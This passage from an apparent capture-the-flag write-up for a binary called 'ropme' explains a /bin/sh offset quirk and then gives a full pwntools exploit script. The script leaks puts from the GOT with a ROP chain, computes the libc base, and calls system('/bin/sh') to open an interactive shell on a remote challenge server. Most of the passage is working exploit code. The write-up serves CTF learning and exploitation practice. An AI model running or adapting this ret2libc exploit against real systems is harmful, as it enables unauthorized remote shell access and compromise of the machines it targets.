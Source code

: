 ![image](https://user-images.githubusercontent.com/87600765/175791802-640d2d0a-e504-482d-95a6-44c1a4b841fd.png)

It's in fact 60 bytes before `/bin/sh`. However, we don't know whether the string of %s is from position 1 to 8, 2 to 9 or 3 to 10. This means that the offset could be 60, 62 or 64 bytes.
Let's try to trigger an other error message
```py
binsh = next(libc.search(b'/bin/sh')) + 25
``` 

![image](https://user-images.githubusercontent.com/87600765/175791798-a0735803-66d9-41c3-ba77-2de2ea2174b4.png)

![image](https://user-images.githubusercontent.com/87600765/175791795-142405aa-6969-4185-bbdb-65817e45283e.png)


That why we have to put `- 64`.

#### exploit.py
```py
from pwn import *

elf = context.binary = ELF('./ropme')
p = remote('157.245.35.236', 32333)

libc = ELF("./libc6_2.23-0ubuntu10_amd64.so")
rop = ROP(elf)

offset = b'A' * 0x48
puts_plt = elf.plt['puts']
main_plt = elf.symbols['main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]
log.info("Address of Main is:" + hex(main_plt))
log.info("Address of puts@plt:" + hex(puts_plt))
log.info("The gadget pop rdi; ret found at:" + hex(pop_rdi))

puts_got = elf.got['puts']
log.info("Address of puts@got:" + hex(puts_got))
payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_plt)
p.clean()
p.sendline(payload)
leak_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("Function puts leaked:" + hex(leak_puts))
libc.address = leak_puts - libc.symbols['puts']
log.info("Libc base %s" % hex(libc.address))

# shell
system = libc.sym['system']
bin_sh = next(libc.search(b'/bin/sh')) - 64
final_payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(system)
p.clean()
p.sendline(final_payload)
p.interactive()
```

![image](https://user-images.githubusercontent.com/87600765/175791791-b7f3dfbd-111f-4d1b-bace-1de8fef3f570.png)
